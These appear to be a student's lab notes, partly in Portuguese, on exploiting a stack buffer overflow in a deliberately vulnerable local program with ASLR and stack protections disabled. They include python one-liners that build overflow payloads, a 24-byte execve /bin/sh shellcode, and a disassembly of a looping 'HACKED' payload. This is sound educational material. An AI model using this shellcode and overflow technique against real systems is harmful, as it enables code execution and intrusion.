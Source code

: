 NOTA: Apenas corre utilizando o gdb

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/kXfYOLqtfGQ/0.jpg)](https://www.youtube.com/watch?v=kXfYOLqtfGQ)


Disable randomization
kali@kali:/media/sf_Shared_SegSoft-Kali/Protocolos/3-stack$ cat /proc/sys/kernel/randomize_va_space 
2

0 = disabled
1 = Conservative Randomization
2 = Full Randomization

Stack execution
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack

===============================================================================

loop infinito
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > badfile
python -c 'print "\x90"*8*5 + "\x99\x11\x40\x00\x00\x00\x00\x00"' > smasher

===============================================================================

SHELLL NO GDB

Inicio do buffer: 0x00007fffffffcdc0

---------------------------------

\x6a\x3b\x58\x99\x52\x48\xbb\x2f -> shellcode
\x2f\x62\x69\x6e\x2f\x73\x68\x53 -> shellcode
\x54\x5f\x52\x57\x54\x5e\x0f\x05 -> shellcode

\xc0\xdf\xff\xff\xff\x7f\x00\x00 -> return (meter a apontar para a shellcode)

\x90\x90\x90\x90\x90\x90\x90\x90 -> ebp(?)

\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]
\x90\x90\x90\x90\x90\x90\x90\x90 -> buffer[32]

---------------------------------

Exploit shell:
	python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"' > smasher
	gdb stack
	run
Shell code:
	24 bytes -> char code[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";

===============================================================================

Executar loop sem nada dentro (a: goto a;)
python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x89\x7d\xfc\x48\x89\x75\xf0\xeb\xfe\x90"' > smasher
gdb stack
run

===============================================================================
HACKED

python -c 'print "\x90"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "A"*88' > smasher

python -c 'print "A"*8*5 + "\x90\xdf\xff\xff\xff\x7f\x00\x00" + "\x55\x48\x89\xe5\x48\x83\xec\x20\x89\x7d\xec\x48\x89\x75\xe0\xc6\x45\xf8\x48\xc6\x45\xf9\x41\xc6\x45\xfa\x43\xc6\x45\xfb\x4b\xc6\x45\xfc\x45\xc6\x45\xfd\x44\xc6\x45\xfe\x0a\xc6\x45\xff\x00\x48\x8d\x45\xf8\x48\xba\x20\xea\xe4\xf7\xff\x7f\x00\x00\x48\x89\xc7\xb8\x00\x00\x00\x00\xff\xd2\xeb\xe6\x0f\x1f\x44\x00\x00"' > smasher
gdb stack
run

(88)
\x55
\x48\x89\xe5
\x48\x83\xec\x20
\x89\x7d\xec
\x48\x89\x75\xe0
\xc6\x45\xf8\x48
\xc6\x45\xf9\x41
\xc6\x45\xfa\x43
\xc6\x45\xfb\x4b
\xc6\x45\xfc\x45
\xc6\x45\xfd\x44
\xc6\x45\xfe\x0a
\xc6\x45\xff\x00
\x48\x8d\x45\xf8
\x48\xba\x20\xea\xe4\xf7\xff
\x7f\x00\x00
\x48\x89\xc7
\xb8\x00\x00\x00\x00
\xff\xd2
\xeb\xe6
\x0f\x1f\x44\x00\x00

0000000000401102 <main>:
  401102:       55                      push   %rbp
  401103:       48 89 e5                mov    %rsp,%rbp
  401106:       48 83 ec 20             sub    $0x20,%rsp
  40110a:       89 7d ec                mov    %edi,-0x14(%rbp)
  40110d:       48 89 75 e0             mov    %rsi,-0x20(%rbp)
  401111:       c6 45 f8 48             movb   $0x48,-0x8(%rbp)
  401115:       c6 45 f9 41             movb   $0x41,-0x7(%rbp)
  401119:       c6 45 fa 43             movb   $0x43,-0x6(%rbp)
  40111d:       c6 45 fb 4b             movb   $0x4b,-0x5(%rbp)
  401121:       c6 45 fc 45             movb   $0x45,-0x4(%rbp)
  401125:       c6 45 fd 44             movb   $0x44,-0x3(%rbp)
  401129:       c6 45 fe 0a             movb   $0xa,-0x2(%rbp)
  40112d:       c6 45 ff 00             movb   $0x0,-0x1(%rbp)
  401131:       48 8d 45 f8             lea    -0x8(%rbp),%rax
  401135:       48 ba 20 ea e4 f7 ff    movabs $0x7ffff7e4ea20,%rdx
  40113c:       7f 00 00 
  40113f:       48 89 c7                mov    %rax,%rdi
  401142:       b8 00 00 00 00          mov    $0x0,%eax
  401147:       ff d2                   callq  *%rdx
  401149:       eb e6                   jmp    401131 <main+0x2f>
  40114b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)


=================================================================================================

python -c 'print "\x90"*8*5 + "\xd0\xdf\xff\xff\xff\x7f\x00\x00" + "<EXECUTA>"' > smasher

